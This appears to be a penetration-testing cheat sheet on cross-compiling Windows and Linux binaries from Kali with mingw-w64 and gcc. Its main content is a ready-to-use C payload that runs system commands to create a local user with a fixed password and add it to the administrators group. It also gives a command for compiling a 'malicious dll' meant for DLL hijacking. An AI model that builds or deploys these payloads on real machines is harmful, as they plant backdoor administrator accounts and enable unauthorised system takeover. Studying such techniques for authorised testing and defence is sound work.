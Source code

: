 # X-Compiling binaries on kali

## Get cross-compiler for windows

`apt install mingw-w64 `


```c
#include <stdlib.h>

int main ()
{
  int i;
  
  // i for debugging
  i = system ("net user Pentester Password1 /add");
  i = system ("net localgroup administrators Pentester /add");
  
  return 0;
}
```

cross compile for 32 bit
	
`i686-w64-mingw32-gcc foo.c -o foo.exe`


cross compile for 64 bits
	
`x86_64-w64-mingw32-gcc foo.c -o foo.exe`
	
List compilation options
	
	apt-cache search mingw-w64
	
Compile malicious dll

`x86_64-w64-mingw32-gcc windows_dll.c --shared -o hijackme.dll`

## For Linux

Use another box or directly on kali

if doesnt compile, for older machines add : `-static -static-libgcc -static-libstdc++`

```bash
#For x64 bit:

gcc -m64 hello.c -o exploit

#For x32 bit:

gcc -m32 hello.c -o exploit
```